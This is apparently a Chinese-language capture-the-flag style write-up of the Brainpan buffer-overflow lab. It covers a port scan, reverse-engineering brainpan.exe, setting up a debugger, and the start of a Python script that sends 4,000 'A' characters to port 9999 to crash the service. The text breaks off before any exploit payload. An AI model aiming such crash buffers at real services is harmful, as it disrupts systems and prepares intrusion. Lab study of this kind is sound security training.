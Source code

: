 ```yaml
---
title: brainpan（栈溢出）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


题外话：人生其实很简单，想要的就去争取，得到了就珍惜，失去了就忘记。

192.168.67.130

```
PORT      STATE SERVICE
9999/tcp  open  abyss 
10000/tcp open  snet-sensor-mgmt
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/3.PNG)
`http://192.168.67.130:10000`

`nc 192.168.67.130 9999`

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/14.PNG)

根据nc连接结果来看，brainpan.exe就是9999端口上运行的程序。
但是我们不知道密码，于是要通过逆向来获取。
## brainpan.exe 
### file
```
file brainpan.exe 
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
```
windows 32位程序
### strings
strings brainpan.exe

查看程序的字符串，确认该程序就是目标主机9999端口运行的。

### 动态分析
本地windows机器做目标机，kali做攻击机。对程序进行动态调试。

windows主机，用调试器打开该程序
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/1.PNG)

kali连接windows主机的9999端口
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-04/2.PNG)

### demo.py让程序报错
```
#!/usr/bin/python
import socket

host = "192.168.67.1"

buffer = "A"*4000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 9999))
data=s.recv(1024)
```